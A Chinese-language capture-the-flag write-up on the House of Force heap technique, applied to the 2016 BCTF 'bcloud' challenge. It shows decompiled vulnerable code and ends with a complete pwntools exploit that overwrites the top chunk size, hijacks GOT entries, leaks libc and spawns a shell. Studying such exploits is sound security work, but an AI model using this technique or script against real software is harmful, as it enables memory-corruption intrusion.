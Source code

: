 ```yaml
---
title: House_of_force
date: 2019-03-03 14:40:22
tags:
layout: default
---
```

House of force
<!--more-->
#0x00
House of 系列归纳中的一篇.题目还是比较简单可以作为House_of_force的教学题.
[2016BCTF_bcloud][1]
# House of force
* 通过某些手段改写`top_chunk`的size 很大例如(`0xffffffff`)
* 假设malloc `sise`不受限制,我们想要控制Aim_address,目前Top地址为Top_address
* 我们只要malloc Aim_address-Top_address之后再malloc一次就可以控制Aim_address.
* 主要是要求malloc的size可控且大小不受限制，可以控制topchunk_size

# Analysis
```python
➜  House_of_force checksec bcloud
[*] '/home/n132/Desktop/House_of_force/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
发现可以写got表且没有PIE

程序先输入名字再输入ORG HOST然后开始标准菜单题只是没有show

# 漏洞分析
## Leak_heap
```arm
  puts("Input your name:");
  readuntil((unsigned int)&s, 64, 10);
  v2 = (char *)malloc(0x40u);
  name = (int)v2;
  strcpy(v2, &s);
  warm_welcome((int)v2);
```
&
```arm
  char s; // [esp+1Ch] [ebp-5Ch]
  char *v2; // [esp+5Ch] [ebp-1Ch]
```
这里只要填满s就会在strcpy时将v2一起copy过去导致泄露heap虽然后来我没用上
##  Force the Top chunk
在init org和id时
```arm
  char org; // [esp+1Ch] [ebp-9Ch]
  char *v2; // [esp+5Ch] [ebp-5Ch]
  int host; // [esp+60h] [ebp-58h]
  char *v4; // [esp+A4h] [ebp-14h]
```
```arm
  puts("Org:");
  readuntil((unsigned int)&org, 64, 10);
  puts("Host:");
  readuntil((unsigned int)&host, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  Org = (int)v2;
  Host = (int)v4;
  strcpy(v4, (const char *)&host);
  strcpy(v2, &org);
  puts("OKay! Enjoy:)");
```
`strcpy(v2, &org);`  可以改写topchunk size 原理和上面一个一样.
又因为malloc size没有限制...


# 思路
* Force the Top chunk
* malloc *2 to control bss
* got hijacking: free---->puts
* leak libc
* got hijacking: free---->system
* free("/bin/sh")

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("--->>\n",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("tent:\n",str(size))
	p.sendafter("tent:\n",c)
def free(idx):
	cmd(4)
	p.sendlineafter("id:\n",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("id:\n",str(idx))
	p.sendafter("tent:\n",c)
#context.log_level='debug'
p=process("./bcloud")
p.sendafter("name:\n","A"*0x40)
p.readuntil("A"*0x40)
heap=u32(p.read(4))-8
log.warning(hex(heap))

p.sendafter("Org:\n","A"*0x40)
p.sendafter("Host:\n",p32(0xfffffff1)+"\n")
array=0x804B0A0
off=array-heap-0xf0
add(off,"A\n")#0
add(0x200,p32(0x50)*34+p32(0x804b014)+p32(0x804b024)+"\n")#1
edit(0,p32(0x08048520)+'\n')
free(1)
base=u32(p.read(4))-(0xf7e65ca0-0xf7e06000)
log.warning(hex(base))
edit(0,p32(0xf7e40da0-0xf7e06000+base)+'\n')
add(0x20,'/bin/sh'+'\n')
free(1)
#gdb.attach(p)
p.interactive()
```


[1]: https://github.com/n132/Watermalon/tree/master/House%20of%20all%20in%20one/House%20of%20force